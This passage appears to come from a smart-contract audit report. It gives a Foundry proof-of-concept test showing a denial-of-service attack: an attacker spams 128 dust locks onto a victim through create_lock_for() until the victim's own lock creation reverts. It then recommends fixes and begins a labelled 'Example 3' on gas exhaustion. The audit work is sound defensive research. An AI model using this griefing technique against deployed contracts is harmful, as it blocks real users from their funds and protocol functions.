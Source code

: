 ```solidity
require(block.timestamp >= _locked.end, "The lock didn't expire");
```

To better understand the issue, copy the following POC into `vePeg.t.sol`.

```solidity
function test_DOS_createlockfor() external {

        uint256 aliceAmountToLock = 1;
        uint256 aliceLockDuration = 365 days;

        vm.startPrank(ALICE);

        peg.approve(address(ve), type(uint256).max);

        //Alice creates 128 locks, each with 1 wei and the maximum duration, to perform a DOS attack on Bob
        for(uint256 i = 0; i < 128; i++) {

            uint256 aliceLockId = ve.create_lock_for(aliceAmountToLock, aliceLockDuration, BOB);
        }

        vm.stopPrank();

        vm.startPrank(BOB);

        uint256 bobAmountToLock = 1e18;
        uint256 bobLockDuration = 365 days;

        peg.approve(address(ve), bobAmountToLock);

        //Bob attempts to create a lock, but the transaction reverts due to Alice's DoS attack.
        vm.expectRevert("dstRep would have too many tokenIds");
        ve.create_lock(bobAmountToLock, bobLockDuration);

        vm.stopPrank();
    }
```

## Recommendations

Two potential fixes:

1. Set a minimum value requirement for the amount necessary for creating a lock to make the attack less feasible.
2. Restrict `create_lock_for()` access to trusted entities only.

---
### Example 3

**Auto Label:** Loop-based gas explosions from unbounded iterations and external calls, leading to denial-of-service or transaction failure due to excessive gas consumption.  

